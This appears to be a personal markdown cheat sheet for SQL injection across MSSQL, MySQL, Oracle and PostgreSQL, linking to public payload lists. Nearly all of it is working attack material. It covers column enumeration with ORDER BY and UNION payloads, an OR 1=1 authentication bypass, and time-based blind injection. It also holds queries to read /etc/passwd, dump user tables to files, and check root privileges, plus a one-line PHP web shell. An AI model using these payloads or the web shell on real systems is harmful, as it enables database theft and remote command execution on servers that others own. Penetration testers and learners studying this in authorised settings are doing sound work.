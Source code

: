 [[mssql]] [[mysql]] [[oracle]] [[postgresql]]
#sql
cheat-sheet/cheatsheet/cheat sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

##### Detect type and version
mssql, mysql - `select @@version`
oracle - `select BANNER from v$version`
postgresql - `select version()`

#### Get database
mysql - database()
postgresql - current_database()


##### Detect number of original query columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
etc. until error occurs
or
until success
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--`
```
##### Useful queries
* `SELECT * FROM information_schema.tables`
* `SELECT table_name FROM information_schema.tables`
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file
```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```